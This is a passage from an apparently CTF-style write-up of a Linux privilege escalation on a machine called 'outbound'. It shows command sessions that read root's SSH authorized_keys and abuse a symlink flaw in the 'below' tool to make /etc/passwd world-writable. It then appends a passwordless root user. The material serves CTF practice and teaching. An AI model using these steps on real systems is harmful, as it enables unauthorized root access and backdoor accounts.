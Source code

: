     root
    dbd1454c58d07ca01c71795eb7f0e3ea


And to show what the file looked like after our dump...


```python
print(root_outbound.exec("cat /root/.ssh/authorized_keys | grep -C 3 ed25519"))
```

    ?	
    sshd: jacob [priv]	
    sshd: jacob@notty	
    ssh-ed25519 AAAAC3Nza<snip>58BTNzZv 1000000	
    ?	
    sleep 60	
    ?


You can see, that even with all the garbage, ssh will eventually try the line with the ssh-ed25519, and with its default context anything that comes after the key itself is simply metadata for use in other components that don't matter to auth. 

## Alternate Ending
After talking with another cohort, I learned how they actually exploited the CVE which is definitely the intended solution.

```sh
jacob@outbound:~$ cd /var/log/below
jacob@outbound:/var/log/below$ ls
error_jacob.log  error_root.log  store
# Clean up the folder and identify our target. /etc/shadow is mounted RO or chattr +i so we cannot write to it.
jacob@outbound:/var/log/below$ rm error_root.log 
jacob@outbound:/var/log/below$ stat /etc/passwd
  File: /etc/passwd
  Size: 1840            Blocks: 8          IO Block: 4096   regular file
Device: 8,2     Inode: 16522       Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2025-07-15 23:39:51.539000236 +0000
Modify: 2025-07-08 21:06:21.791868493 +0000
Change: 2025-07-08 21:06:21.793868494 +0000
 Birth: 2025-07-08 21:06:21.791868493 +0000
# When we create the link, the app will traverse it to chmod the target file.
jacob@outbound:/var/log/below$ ln -s /etc/passwd error_root.log
jacob@outbound:/var/log/below$ sudo below record
Jul 15 23:42:48.623 DEBG Starting up!
Jul 15 23:42:48.623 ERRO 
----------------- Detected unclean exit ---------------------
Error Message: Failed to acquire file lock on index file: /var/log/below/store/index_01752537600: EAGAIN: Try again
-------------------------------------------------------------
# Now we can see the actual file itself is modified.
jacob@outbound:/var/log/below$ stat /etc/passwd
  File: /etc/passwd
  Size: 1840            Blocks: 8          IO Block: 4096   regular file
Device: 8,2     Inode: 16522       Links: 1
Access: (0666/-rw-rw-rw-)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2025-07-15 23:39:51.539000236 +0000
Modify: 2025-07-08 21:06:21.791868493 +0000
Change: 2025-07-15 23:42:48.621561217 +0000
 Birth: 2025-07-08 21:06:21.791868493 +0000
# So we can easily add ourselves as the root uuid/guid
jacob@outbound:/var/log/below$ echo "tokugero::0:0:tokugero:/root:/bin/bash" >> /etc/passwd
jacob@outbound:/var/log/below$ cat /etc/passwd | tail -n 5
_laurel:x:999:988::/var/log/laurel:/bin/false
```